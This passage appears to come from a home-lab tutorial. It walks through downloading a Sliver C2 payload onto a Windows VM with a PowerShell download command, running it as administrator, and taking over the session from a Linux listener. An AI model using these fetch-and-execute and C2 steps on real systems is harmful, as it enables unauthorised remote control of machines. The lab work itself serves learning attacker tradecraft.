 ### **Downloading the Payload on the Windows VM**

2.  Open an **Administrative PowerShell Console** on the Windows VM.
3.  Download the C2 payload from the Linux VM:

```powershell
 IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -o Outfile C:\Users\User\Downloads\[payload_name].exe
```

    -   Replace `[Linux_VM_IP]` with the Linux VM’s IP address.
    -   Replace `[payload_name].exe` with the actual payload filename.

![enter image description here](https://i.ibb.co/xSnd1ZMQ/request-2.png)

---

## **4. Establishing a C2 Session**

### **Preparing the Listener on the Linux VM**

1.  Stop the Python web server and drop into the silver server:

    `Ctrl + C`

    `sliver-server`

2.  Start a HTTP listener:

    `http`

![enter image description here](https://i.ibb.co/zVhf3htC/http.png)

### **Executing the Payload on the Windows VM**

4.  Execute the payload from an **Administrative PowerShell console**

    `C:\Users\User\Downloads\[payload_name].exe`

### **Confirming the Connection on the Linux VM**

5.  If the payload successfully executed a session id will appear in our shell , Check if any session has been established:

    `sessions`

6.  Connect to the active session with the session id:

    `use [session_id]`

![enter image description here](https://i.ibb.co/JwQS4f2f/session.png)

# **Gathering System Information**

Now that the C2 session is established, we will gather system information to simulate an attacker’s reconnaissance activities.
